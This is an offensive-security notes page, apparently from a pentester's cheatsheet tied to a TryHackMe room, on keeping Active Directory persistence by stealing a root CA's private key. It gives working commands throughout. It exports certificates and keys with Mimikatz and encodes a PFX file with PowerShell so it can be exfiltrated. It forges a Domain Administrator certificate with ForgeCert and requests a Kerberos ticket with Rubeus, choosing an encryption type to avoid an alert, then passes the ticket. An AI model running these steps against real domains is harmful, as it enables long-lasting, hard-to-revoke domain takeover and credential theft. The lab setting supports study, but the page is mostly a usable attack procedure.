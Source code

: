 # Active Directory Persistence With Certificates

We can use [[AD-Certificate-Exploitation]], leveraging certifications to become Domain Administrators, as a viable method of persistence. All that is required is:
- A valid certificate used for client authentication
- The certificate can be used to request a TGT.
- The certificate has to be revoked or expire for a failure state to occur, therefore potential persistent access by default is approximately around 5 years depending on certificate rotation. 

## Certificate Authority CA 

Steal the private key of the root CA's certificate to generate our own certificates. Blue can not revoke them as they were never issued by the CA and would require a CA rotation - all issued certificates would have to be revoked and new one reinstated! 

The private key of the CA is stored on the CA server, if not protected through Hardware Security Module (HSM) - a hardware-based protection method - it is protected by the machine Data Protection API (DPAPI).

With [[Mimikatz-Cheatsheet]] or [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI):

Way to exfiltrate the certificates with PowerShell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
```
Way to infiltrate a certificate with PowerShell
```powershell
$base64String = "<INSERT Base64 ENCODED PFX>"
# Convert the Base64 string back to bytes
$bytes = [System.Convert]::FromBase64String($base64String)

# Save the bytes to a file
Set-Content -Path "<YOUR PATH>\file.pfx" -Value $bytes -Encoding Byte
```

With Mimikatz - [[Mimikatz-Cheatsheet]]
```powershell
# View CA Certificate on the DC 
# Some Certificates do not allow exporting the private key  
crypto::certificates /systemstore:local_machine
# Therefore use Mimikatz to generate a new certificate 
privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
# Exported certificates will be stored in both PFX and DER format to disk
```
Transfer both .pfx and .der certificate files to non domain machine for safe keeping and safer certificate generation.

Use SpectreOps's [ForgeCert](https://github.com/GhostPack/ForgeCert) to forge a Client Authentication certificate.
```powershell
# --SubjectAltName is User principle name UPN 
ForgeCert.exe --CaCertPath $exportedCAcertificate --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath $NewCertName.pfx --NewCertPassword Password123
```
Then use [[Rubeus-Cheatsheet]] to request a TGT using the certificate to verify that the certificate is trusted:
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```

Then [[Mimikatz-Cheatsheet]] to [[Pass-The-Ticket]]
```powershell
kerberos::ptt $ticket.kirbi
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)